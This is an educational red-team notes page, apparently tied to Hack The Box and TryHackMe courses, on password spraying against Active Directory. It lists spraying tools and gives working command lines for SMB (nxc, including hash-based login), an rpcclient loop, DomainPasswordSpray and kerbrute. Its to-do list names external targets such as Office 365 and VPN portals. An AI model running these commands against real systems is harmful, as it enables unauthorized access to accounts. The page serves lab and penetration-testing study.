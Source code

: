 # Password spraying

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[![passwordattacks](../../../../_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

<div class="row row-cols-lg-2"><div>

Password spraying is a technique that is the most commonly used nowadays to find a working credential pair.

We select a password and test it on a list of usernames. After a delay, we repeat this step with another password. 🤖

Many companies have some [password policy](policy.md) that may include account lookout after a certain number of failed attempts, which makes brute force impractical as we would lock all accounts.
</div><div>

Some tools you might use:

* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) <small>(1.4k ⭐, 2022 🪦)</small>
* [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray) <small>(0.9k ⭐)</small>
* [CredMaster](https://github.com/knavesec/CredMaster) <small>(0.8k ⭐)</small>

Many [network authentication tools](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md) can be used such as `hydra -C`.
</div></div>

<hr class="sep-both">

## Windows Credentials Password spraying

<div class="row row-cols-lg-2"><div>

#### Leveraging SMB

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can use [SMB](/operating-systems/networking/protocols/smb.md):

```ps
$ nxc smb IP -u wordlist -p PasswordHere
$ nxc smb IP -u wordlist -p PasswordHere | grep +
$ nxc smb --local-auth CIDR -u administrator -H hash | grep +
```

#### Leveraging RPC

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

A very poor but straightforward [RPC](/operating-systems/networking/protocols/rpc.md) password spraying:

```ps
$ for u in $(cat wordlist);do rpcclient -U "$u%PasswordHere" -c "getusername;quit" IP | grep Authority; done
```
</div><div>

#### Leveraging A Domain-joined Host

You may use [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) <small>(1.6k ⭐)</small>:

```ps
PS> Import-Module .\DomainPasswordSpray.ps1
PS> Invoke-DomainPasswordSpray -Password PasswordHere -OutFile output.txt -ErrorAction SilentlyContinue
```

#### Leveraging Kerberos Authentication Module

We can use [kerbrute](/cybersecurity/red-team/tools/utilities/windows/kerbrute.md):

```ps
$ kerbrute passwordspray -d domain --dc IP valid_users.txt mypassword
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

External Password Spraying

* Microsoft 0365, Exchange, Skype, RDS
* VPN portals (Citrix, SonicWall, OpenVPN, Fortinet using AD Auth)
* Any app using AD Auth
* ...
</div><div>
</div></div>